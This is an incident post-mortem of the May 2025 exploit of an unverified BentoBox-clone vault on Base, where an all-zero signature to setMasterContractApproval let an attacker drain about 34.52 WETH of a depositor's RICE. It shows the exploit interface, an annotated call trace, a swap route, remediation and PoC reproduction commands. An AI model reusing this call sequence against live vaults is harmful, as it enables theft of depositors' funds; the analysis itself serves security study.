



# RICE / BentoBox-Clone Exploit — Signature-less `setMasterContractApproval` Lets Anyone Drain Any Depositor

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/auth/signature-validation

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo does not whole-compile, so this PoC was
> extracted). Full verbose trace: [output.txt](output.txt). PoC: [test/RICE_exp.sol](test/RICE_exp.sol).
> The vulnerable contract is **unverified** on BaseScan; its behaviour is reconstructed entirely from the
> on-chain execution trace, and the leaked asset (RICE) source is at
> [contracts_OptimismMintableERC20.sol](sources/OptimismMintableERC20_f501E4/contracts_OptimismMintableERC20.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~34.52 WETH ($88.1K) — drained from a single depositor of a BentoBox/DegenBox-style vault |
| **Vulnerable contract** | unverified BentoBox/DegenBox clone — [`0xcfE0DE4A50C80B434092f87e106DFA40b71A5563`](https://basescan.org/address/0xcfe0de4a50c80b434092f87e106dfa40b71a5563#code) |
| **Victim (drained depositor)** | `0x49876a20bB86714e98A7E4d0a33d85a4011b3455` — held 22,189,176.5 RICE in the vault |
| **Leaked asset** | RICE (`OptimismMintableERC20`) — [`0xf501E4c51dBd89B95de24b9D53778Ff97934cd9c`](https://basescan.org/address/0xf501E4c51dBd89B95de24b9D53778Ff97934cd9c) |
| **Attacker EOA** | [`0x2a49c6fd18bd111d51c4fffa6559be1d950b8eff`](https://basescan.org/address/0x2a49c6fd18bd111d51c4fffa6559be1d950b8eff) |
| **Attacker contract** | [`0x7ee23c81995fe7992721ac14b3af522718b63f8f`](https://basescan.org/address/0x7ee23c81995fe7992721ac14b3af522718b63f8f) (PoC re-deploys at `0x5615…b72f`) |
| **Attack tx** | [`0x8421c96c1cafa451e025c00706599ef82780bdc0db7d17b6263511a420e0cf20`](https://basescan.org/tx/0x8421c96c1cafa451e025c00706599ef82780bdc0db7d17b6263511a420e0cf20) |
| **Chain / block / date** | Base / 30,655,996 (forked at 30,655,995) / 2025-05-24 |
| **Compiler** | PoC `^0.8.13` (test harness); vuln contract bytecode-only |
| **Bug class** | Broken access control / signature verification — approval set without authentication |

---

## TL;DR

The vulnerable contract is a **BentoBox/DegenBox clone** (the function selectors, parameter layouts, and
emitted events — `LogRegisterProtocol`, `LogSetMasterContractApproval`, `LogWithdraw`, and a
`withdraw(token, from, to, amount, share)` signature — are byte-for-byte the original Sushi BentoBox).
In a correct BentoBox, `setMasterContractApproval` either (a) requires `msg.sender == user` for a direct
opt-in, or (b) requires a valid EIP-712 signature `(v, r, s)` from `user` authorising a *registered*
master contract. This clone enforced **neither**.

The attacker therefore:

1. `registerProtocol()` — permissionlessly registers their own attack contract as a "master contract".
2. `setMasterContractApproval(victim, attackContract, true, 0, 0, 0)` — grants their attack contract
   operator rights over the victim's vault balance **with `v=0, r=0, s=0` (no signature at all)**.
3. `withdraw(RICE, victim, attackContract, 22_189_176.5e18, …)` — pulls the victim's entire 22.19M RICE
   deposit out to the attacker.

The 22.19M RICE is then routed RICE → USDT (Uniswap V3) → USDC → WETH (Aerodrome Slipstream) for a clean
**34.52 WETH (~$88.1K)** profit. There was no flash loan and effectively no capital required — the only
input was gas.

---

## Background — what the protocol does

BentoBox (and its Abracadabra fork DegenBox) is a token vault that holds user deposits and lets approved
"master contracts" (lending markets, strategies, etc.) move user funds on the user's behalf. The trust
model is:

- A user **deposits** tokens into the vault; the vault tracks their balance in `shares`.
- A **master contract** must be **registered** (`registerProtocol()` / whitelisting) before it can be
  approved.
- A user authorises a master contract via **`setMasterContractApproval`**. This can be done by the user
  directly (`msg.sender == user`) **or** by anyone presenting a valid **EIP-712 signature** produced by
  the user. The signature path is what lets relayers/master-contracts opt a user in gaslessly.
- Once approved, the master contract can call `withdraw` / `transfer` moving the user's shares.

The whole security of the vault rests on that one authentication check inside
`setMasterContractApproval`. If approvals can be set without the user's consent, every depositor's funds
are free for the taking.

The on-chain facts at the fork block (from the trace):

| Fact | Value | Trace |
|---|---|---|
| Victim's RICE balance in the vault | 22,189,176.505973791717313474 RICE | [output.txt:68](output.txt) (`0x125abdab2e177fdfd7cbc2`) |
| Attacker's master-contract registration slot | `0 → attackContract` | [output.txt:57](output.txt) |
| Victim→attacker approval slot | `0 → 1` (after no-sig call) | [output.txt:62](output.txt) |
| RICE pulled to attacker | 22,189,176.5 RICE | [output.txt:65-66](output.txt) |

---

## The vulnerable code

The vulnerable contract `0xcfE0…5563` is **unverified** on BaseScan (16,758 bytes of bytecode, confirmed
via `eth_getCode` at the fork block). The exploit interface used by the PoC is the canonical BentoBox
surface ([test/RICE_exp.sol:106-117](test/RICE_exp.sol#L106-L117)):

```solidity
interface I0xcfE0 {
    function registerProtocol() external;
    function setMasterContractApproval(
        address user,
        address masterContract,
        bool approved,
        uint8 v, bytes32 r, bytes32 s
    ) external;
    function withdraw(address token_, address from, address to, uint256 amount, uint256 share) external;
}
```

The trace proves all three calls succeed against the victim with zero authentication
([output.txt:54-75](output.txt)):

```
0xcfE0…5563::registerProtocol()
  emit LogRegisterProtocol(param0: AttackContract)                 # attacker = a "protocol"

0xcfE0…5563::setMasterContractApproval(
        0x49876…3455 (VICTIM), AttackContract, true,
        0, 0x000…000, 0x000…000)                                   # v=0, r=0, s=0  ← NO SIGNATURE
  emit LogSetMasterContractApproval(AttackContract, 0x49876…3455, true)
  storage: 0x935b…5699: 0 → 1                                      # approval written anyway

0xcfE0…5563::withdraw(RICE, 0x49876…3455 (VICTIM), AttackContract,
        22189176505973791717313474, 22189176505973791717313474)
  RICE::transfer(AttackContract, 22189176505973791717313474)       # full victim balance leaves
  emit LogWithdraw(RICE, 0x49876…3455, AttackContract, …)
```

For comparison, the **reference Sushi BentoBox** `setMasterContractApproval` is gated like this
(the clone is missing exactly these checks):

```solidity
function setMasterContractApproval(
    address user, address masterContract, bool approved,
    uint8 v, bytes32 r, bytes32 s
) public {
    require(masterContract != address(0), "MasterCMgr: masterC not set");
    // ❶ the master contract must be registered/whitelisted
    require(masterContractOf[masterContract] != address(0) || whitelistedMasterContracts[masterContract],
            "MasterCMgr: not registered");
    if (r == 0 && s == 0 && v == 0) {
        // ❷ direct opt-in: ONLY the user themselves may set their own approval
        require(user == msg.sender, "MasterCMgr: user not sender");
        ...
    } else {
        // ❸ relayed opt-in: signature MUST recover to `user`
        bytes32 digest = keccak256(abi.encodePacked("\x19\x01", DOMAIN_SEPARATOR(), keccak256(abi.encode(
            APPROVAL_SIGNATURE_HASH, approved ? "...approve..." : "...revoke...",
            user, masterContract, nonces[user]++))));
        address recoveredAddress = ecrecover(digest, v, r, s);
        require(recoveredAddress == user, "MasterCMgr: Invalid Signature"); // ⚠️ clone skipped this
    }
    isApproved[user][masterContract] = approved;
    ...
}
```

The clone accepted the `r==0 && s==0 && v==0` branch **without requiring `user == msg.sender`** (the
attacker is not the victim), so check ❷ was absent; and it never reached/enforced the `ecrecover` path ❸.
The result is an attacker-controlled approval being written for an arbitrary `user`.

---

## Root cause — why it was possible

A single missing authorization check. `setMasterContractApproval` is the *only* gate that protects every
depositor's funds, and the clone shipped it without the authentication that BentoBox enforces:

1. **No `msg.sender == user` check on the no-signature path.** BentoBox treats `(v,r,s) == (0,0,0)` as
   "the user is opting themselves in directly" and therefore *requires `user == msg.sender`*. The clone
   wrote the approval for any `user` the caller named, so the attacker approved their own contract to
   spend the **victim's** balance.
2. **No signature verification on the relayed path.** The proper relayed path recovers an EIP-712
   signature and requires `ecrecover(...) == user`. With `(v,r,s) == (0,0,0)`, `ecrecover` returns
   `address(0)`, which a correct implementation rejects. The clone never performed (or never enforced)
   that recovery, so the all-zero "signature" sailed through.
3. **`registerProtocol()` is permissionless.** Anyone can register as a master contract, so the attacker
   trivially satisfied any "must be a registered master contract" precondition with their own contract —
   removing the last speed-bump.

Composed together: *anyone can register themselves as a master contract, approve themselves over any
depositor without that depositor's consent, and withdraw the depositor's funds.* It is a textbook missing
access-control / broken-signature-check bug on the most security-critical function in the vault.

---

## Preconditions

- A victim with a non-zero deposit in the vault. Here `0x49876…3455` held **22,189,176.5 RICE**.
- The attacker controls a contract address (to be the "master contract"). No capital, no flash loan, no
  special role — only gas.
- Liquidity to convert the stolen RICE to WETH (a RICE/USDT Uniswap V3 pool and a USDT→USDC→WETH
  Aerodrome route both existed at the block).

---

## Attack walkthrough (with on-chain numbers from the trace)

All numbers are taken directly from [output.txt](output.txt).

| # | Step | Call | Result |
|---|------|------|--------|
| 0 | **Setup** | deploy `AttackContract`; `approve` USDT→SwapRouter and RICE→UniV3Router | — |
| 1 | **Register as a master contract** | `0xcfE0…::registerProtocol()` ([:54](output.txt)) | attacker recorded as a protocol (`LogRegisterProtocol`) |
| 2 | **Forge approval over the victim** | `0xcfE0…::setMasterContractApproval(victim, attacker, true, 0,0,0)` ([:59](output.txt)) | approval slot `0 → 1`; **no signature** |
| 3 | **Drain the victim** | `0xcfE0…::withdraw(RICE, victim, attacker, 22_189_176.5e18, 22_189_176.5e18)` ([:64](output.txt)) | `RICE::transfer(attacker, 22,189,176.5 RICE)` |
| 4 | **Sell RICE → USDT** | UniV3 `exactInputSingle(RICE→USDT, fee 3000, amtIn 22.19M RICE)` ([:79](output.txt)) | received **88,232.917196 USDT** |
| 5 | **Sell USDT → USDC → WETH** | Aerodrome `exactInput(path USDT→USDC→WETH, amtIn 88,232.917196 USDT)` ([:109](output.txt)) | USDT→USDC = 88,166.114848 USDC ([:136](output.txt)); USDC→WETH = **34.522914219203665619 WETH** ([:189](output.txt)) |
| 6 | **Sweep to attacker EOA** | `WETH::transfer(attacker, 34.52e18)` ([:226](output.txt)) | profit booked |

Balance log ([output.txt:6-7](output.txt)):

```
Attacker Before exploit WETH Balance: 0.000000000000000000
Attacker After  exploit WETH Balance: 34.522914219203665619
```

### Profit accounting

| Leg | In | Out |
|---|---:|---:|
| Vault withdraw (stolen) | — | 22,189,176.505973 RICE |
| RICE → USDT (Uniswap V3, 0.3% pool) | 22,189,176.5 RICE | 88,232.917196 USDT |
| USDT → USDC (Aerodrome, ts=1) | 88,232.917196 USDT | 88,166.114848 USDC |
| USDC → WETH (Aerodrome, ts=100) | 88,166.114848 USDC | **34.522914219203665619 WETH** |
| **Net profit** | ~0 capital (gas only) | **+34.52 WETH (~$88.1K)** |

---

## Diagrams

### Sequence of the attack



### Vault authorization state — what should happen vs. what did



### Victim balance evolution



---

## Remediation

1. **Authenticate the no-signature path.** When `(v, r, s) == (0, 0, 0)`, require `user == msg.sender`.
   A user may only directly opt *themselves* in — never set approvals on behalf of another address.
2. **Verify the signature on the relayed path.** Recover the EIP-712 digest and require
   `ecrecover(digest, v, r, s) == user && recovered != address(0)`. Reject the all-zero signature
   explicitly. Include and increment a per-user `nonce` and a correct `DOMAIN_SEPARATOR` to prevent
   replay and cross-chain reuse.
3. **Restrict / whitelist master contracts.** Either make `registerProtocol()` permissioned, or require
   that the approved `masterContract` be a deployed contract whose deployer/registrant matches the
   registry — so a fresh attacker contract cannot trivially become an approvable operator.
4. **Reuse the audited original.** This is a clone of a heavily-audited contract (BentoBox/DegenBox). The
   safest fix is to deploy the unmodified, audited implementation rather than a re-implementation that
   dropped the security-critical checks.
5. **Defense in depth:** emit and monitor `LogSetMasterContractApproval`; alert on any approval where the
   `user` differs from the transaction sender and no signature was supplied.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has several
unrelated PoCs that fail to compile under `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2025-05-RICE_exp -vvvvv
```

- RPC: a **Base archive** endpoint is required (fork block 30,655,995). Most public Base RPCs prune that
  block and fail with `state at block #30655996 is pruned`. `foundry.toml` uses
  `https://base-mainnet.public.blastapi.io`, which serves historical state there (Infura free keys,
  drpc, meowrpc, and publicnode all failed — pruned or rate-limited).
- Result: `[PASS] testExploit()` with the attacker ending on **34.52 WETH**.

Expected tail:

```
Ran 1 test for test/RICE_exp.sol:RICE_exp
[PASS] testExploit() (gas: 1557465)
Logs:
  Attacker Before exploit WETH Balance: 0.000000000000000000
  Attacker After exploit WETH Balance: 34.522914219203665619

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: TenArmor alert — https://x.com/TenArmorAlert/status/1926461662644633770 (RICE, Base, ~$88.1K).*
